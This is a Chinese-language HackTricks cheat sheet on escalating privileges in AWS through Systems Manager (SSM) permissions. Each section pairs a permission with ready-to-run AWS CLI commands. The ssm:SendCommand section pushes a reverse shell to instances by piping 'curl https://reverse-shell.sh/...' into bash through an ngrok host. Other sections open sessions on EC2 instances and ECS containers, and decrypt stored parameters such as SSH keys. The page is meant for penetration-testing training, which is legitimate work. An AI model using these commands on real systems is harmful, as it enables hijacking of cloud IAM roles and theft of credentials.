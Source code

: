 # AWS - SSM Privesc

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## SSM

有关 SSM 的更多信息，请查看：

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

具有权限 **`ssm:SendCommand`** 的攻击者可以 **在运行 Amazon SSM Agent 的实例中执行命令** 并 **危害其中运行的 IAM 角色**。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
在您使用此技术在已被攻陷的 EC2 实例中提升权限的情况下，您可以通过以下方式在本地捕获 rev shell：
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**潜在影响：** 直接提升权限到附加在运行实例上的 EC2 IAM 角色，这些实例运行着 SSM Agents。

### `ssm:StartSession`

拥有权限 **`ssm:StartSession`** 的攻击者可以 **在运行 Amazon SSM Agent 的实例中启动类似 SSH 的会话**，并 **危害其中运行的 IAM 角色**。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
要开始会话，您需要安装 **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**潜在影响：** 直接提升权限到附加到运行实例的 EC2 IAM 角色，这些实例运行着 SSM 代理。

#### 提升权限到 ECS

当 **ECS 任务** 以 **`ExecuteCommand` 启用** 运行时，具有足够权限的用户可以使用 `ecs execute-command` 在容器内 **执行命令**。\
根据 [**文档**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)，这是通过在您用来发起“_exec_”命令的设备与目标容器之间创建安全通道来完成的，使用 SSM 会话管理器。（需要 SSM 会话管理器插件才能使其工作）\
因此，具有 `ssm:StartSession` 权限的用户将能够通过运行以下命令 **在启用该选项的 ECS 任务中获取 shell**：
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**潜在影响：** 直接提升权限到附加到运行任务的 `ECS` IAM 角色，且启用了 `ExecuteCommand`。

### `ssm:ResumeSession`

拥有权限 **`ssm:ResumeSession`** 的攻击者可以在运行 Amazon SSM Agent 的实例中重新**启动 SSH 类会话**，并在**断开**的 SSM 会话状态下**危害其中运行的 IAM 角色**。
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**潜在影响：** 直接提升权限到附加到运行实例的 EC2 IAM 角色，这些实例运行着 SSM Agents 并且有断开的会话。

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

拥有上述权限的攻击者将能够列出 **SSM 参数** 并 **以明文读取**。在这些参数中，您经常可以 **找到敏感信息**，例如 SSH 密钥或 API 密钥。
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**潜在影响：** 在参数中找到敏感信息。

### `ssm:ListCommands`

拥有此权限的攻击者可以列出所有发送的 **命令**，并希望在其中找到 **敏感信息**。
```
aws ssm list-commands
```
**潜在影响：** 在命令行中查找敏感信息。

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

拥有这些权限的攻击者可以列出所有发送的 **命令** 并 **读取生成的输出**，希望能找到 **敏感信息**。
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**潜在影响：** 在命令行输出中查找敏感信息。

### Codebuild

您还可以使用 SSM 进入正在构建的 codebuild 项目：

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}
